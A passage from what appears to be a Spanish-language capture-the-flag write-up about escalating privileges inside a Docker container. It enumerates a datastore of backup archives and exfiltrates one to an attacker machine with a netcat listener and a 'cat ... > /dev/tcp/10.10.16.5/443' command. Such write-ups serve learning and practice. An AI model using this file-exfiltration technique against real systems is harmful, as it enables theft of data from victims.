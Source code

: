 ```bash
hostname -I
172.17.0.2 
```

## Privilege Escalation

### Docker Breakout

Nos encontramos dentro del contenedor de Docker, el cual queremos encontrar alguna vulnerabilidad, configuración para convertirnos en usuario `root`.

Revisando el directorio raíz `/`, nos encontramos con un directorio llamado `datastore`.

```bash
root@a4b9a36ae7ff:/# ls -l
total 64
drwxr-xr-x   1 root root 4096 Jan 25 00:06 app
lrwxrwxrwx   1 root root    7 Apr  8  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Sep 13 12:24 boot
drwxr-xr-x   6 root root 4096 Jan 25 00:06 datastore
```

Mirando dentro del directorio, hay un directorio llamado `Backups` que parece ser bastante intersante revisarlo.

```bash
root@a4b9a36ae7ff:/datastore# ls -l
total 52
drwxr-xr-x 2 root root  4096 Jan 25 00:16 88e869b2-2f04-4032-bb82-8f53b5b13345
drwxr-xr-x 2 root root  4096 Aug 31 08:56 Backups
```

Dentro de esta carpeta, nos encontramos con dos archivos comprmidos de un backup de la herramienta.

```bash
root@a4b9a36ae7ff:/datastore/Backups# ls -l
total 44
-rw-r--r-- 1 root root  6221 Aug 31 08:53 changedetection-backup-20240830194841.zip
-rw-r--r-- 1 root root 33708 Aug 30 20:25 changedetection-backup-20240830202524.zip
```

Desde nuestro equipo atacante, nos pondremos en escucha para recibir el `.zip` y analizarlo cómodamente.

```bash
❯ nc -nlvp 443 > changedetection-backup-20240830194841.zip
listening on [any] 443 ...
```

Desde la máquina víctima, no disponemos de `nc` para transferir el archivo. Por lo tanto, realizamos un `cat` del archvo y el output lo enviamos a nuestro equipo a través de `/dev/tcp`.

```bash
root@a4b9a36ae7ff:/datastore/Backups$ cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.16.5/443
```
